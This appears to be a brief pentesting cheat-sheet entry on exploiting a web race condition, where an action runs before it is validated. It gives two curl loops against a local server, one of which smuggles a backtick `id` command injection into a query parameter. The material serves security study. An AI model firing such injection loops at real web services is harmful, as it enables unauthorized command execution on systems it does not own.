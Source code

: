 # Race Condition
When the web does the validation of any **action** after it does that action.
For example, when the web does a *shell command* and then validate it for doesn't **command injections** (`id`).
- Try to make a lot of *requests* for some while, and with another *request*, you can see the expected *response*.
	```shell
	while true; do curl -s -X GET 'http://localhost:5000/?action=run' | grep -e "Check this" | html2text | xargs | grep -vE "Default|Important"; done
	while true; do curl -s -X GET 'http://localhost:5000/?person=`id`&action=validate'; done
	```
